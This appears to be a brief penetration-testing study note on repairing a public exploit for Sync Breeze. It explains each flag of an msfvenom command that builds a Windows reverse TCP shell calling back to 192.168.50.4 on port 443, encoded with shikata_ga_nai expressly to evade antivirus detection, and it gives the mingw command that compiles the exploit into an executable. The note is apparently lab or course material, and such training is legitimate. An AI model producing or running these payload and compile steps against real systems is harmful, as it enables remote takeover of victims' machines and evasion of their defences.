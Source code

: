 # fixing exploit (memory issue)
- Generate new shell code
    
    -p windows/shell_reverse_tcp: This specifies the payload to use, in this case a Windows reverse TCP shell. This payload will cause the target system to connect back to the attacker's system and provide a command shell.

    EXITFUNC=thread: This specifies the exit function to use when the shellcode is executed. The "thread" option causes the shellcode to exit by terminating the current thread, rather than the entire process.

    -f c: This specifies the output format for the shellcode, in this case C code.

    -e x86/shikata_ga_nai: This specifies the encoder to use for the shellcode, in this case the "shikata_ga_nai" encoder. This encoder is used to obfuscate the shellcode and make it more difficult to detect by antivirus software.

    -b "\x00\x0a\x0d\x25\x26\x2b\x3d": This specifies a list of bad characters to avoid in the shellcode. These characters are often used in string termination or other special functions, and can cause problems if they are included in the shellcode.

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

```
- compile c to exe
  -lws2_32 means using library ws2_32
``` i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32 ```